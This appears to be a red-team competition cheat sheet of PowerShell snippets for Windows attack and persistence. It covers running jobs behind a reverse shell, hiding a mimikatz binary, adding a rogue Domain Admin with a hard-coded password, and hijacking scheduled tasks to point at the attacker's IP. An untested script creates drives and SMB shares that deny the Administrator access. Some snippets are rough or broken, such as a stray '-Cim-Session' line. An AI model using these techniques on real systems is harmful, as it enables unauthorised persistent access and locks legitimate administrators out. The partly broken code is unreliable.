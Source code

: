 # Red Windows

Website 
`Ctrl + Shift + R` - cache refresh pages to ensure last game does not misinform as to current context

Background programs useful when you only have one reverse shell
```powershell
start /B $command
start-job { $command }
```


Change the keyboard layout - check in scope if so force any new user to have a weird keyboard layout
```powershell
Set-WinUserLanguageList -Force 'en-US'
```

Hiding binaries
```powershll
attrib.exe +h mimikatz.exe
```

Add a Domain Admin
```powershell
# Check the password requirements before!
dsadd user "CN=John,CN=Users,DC=object,DC=local" -samid John -pwd johnspassword123! -display "John" -pwdneverexpires yes -memberof "DC=Domain Admins,CN=Users,DC=object,DC=local"
```

Assimilate a schduledtask
```powershell
# Find task and its excution path to hijack
get-scheduledtask | findstr /v Disabled
$task = get-scheduledtask -taskname <name>
$task | fl
$task.Actions.Execute | fl
$content = Get-Content -Path 'C:\file'
$newContent = $content -replace '<adversary-ip>', '<your-ip>'
$newContent | Set-Content -Path 'C:\file'
```


I NEED TO TEST THIS:

You may want to create all the secondary drives or all the drives possible to block others from using any of the drives. 
```powershell
$persistenceUser = "User1"

for ($i=0; $i -lt 26; $i++) {
  $driveLetter = [char]($i + 65) + ":"
  if (!(Get-Volume | Where-Object DriveLetter -eq $driveLetter)) {
    $newDisk = New-VirtualDisk -DriveLetter $driveLetter -Size 25MB
    $acl = Get-Acl -Path $newDisk.DriveLetter
    $persistenceUserRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $persistenceUserAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule($persistenceUser, $persistenceUserRights, "Allow")
    $acl.SetAccessRule($persistenceUserAccessRule)
    $otherUsersRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $otherUsersAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("Administrator", $otherUsersRights, "Deny")
    $acl.SetAccessRule($otherUsersAccessRule)
    Set-Acl -Path $newDisk.DriveLetter -AclObject $acl
  }
}

```

Create a file share - the longer the path for copy and paste and shell nightmares
```powershell
#

# -ConcurrentUserLimit to prevent hacky breaking into destroy the share 

New-SmbShare -Name MyFileShare -Path $goodPath -FullAccess $persistenceUser -EncryptData $True -ConcurrentUserLimit 1 -ContinuouslyAvailable -Temporary
# You can set up an inital connection to a remote host with output from
#  New-CimSession Get-CimSession
-Cim-Session 


# Add to known adversary accounts -NoAccess Administrator

$Parameters = @{
    Name = '$Name'
    Path = $goodPath
    FullAccess = 'Contoso\Administrator', 'Contoso\Contoso-HV1$'
    EncryptData = $True
    Temporary = $True
    ContinuouslyAvailable = $True
    NoAccess = 'Administrator' # Prevent access administrator - create persistence user to access
}
New-SmbShare @Parameters
```


